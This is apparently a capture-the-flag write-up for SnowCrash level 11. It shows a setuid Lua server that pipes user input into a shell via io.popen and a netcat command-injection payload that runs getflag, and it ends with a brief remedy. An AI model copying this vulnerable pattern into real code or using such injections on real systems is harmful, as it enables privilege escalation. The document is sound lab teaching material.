 Level 11
========

*	We spawn with one file
	```console
	level11@SnowCrash:~$ ls -l
	total 4-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
	level11@SnowCrash:~$ ./level11.lua
	lua: ./level11.lua:3: address already in usestack traceback:[C]: in function 'assert'
	lua: ./level11.lua:3: in main chunk[C]: ?
	```
*	It is a lua script that creates a socket server which will listen on `localhost:5151`
*	It waits for incoming connections from client and expect to recieve a password
*	Then it hashes the password using `SHA1` and check if it matches
	```lua
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	```
*	BUT WAIT ! It is a trap, in fact we don't need to decrypt the hash
*	When we look at the line about the sha1 encryption we can see that the echo command is user here, we can then use the most used vulnerability in this project
	```console
	level11@SnowCrash:~$ nc 127.0.0.1 5151
	Password:  | getflag > /tmp/stuff
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/stuff
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
	```

REMEDY
======

It's getting a bit redondant but once again, dont' allow interpretation when executing shell command 
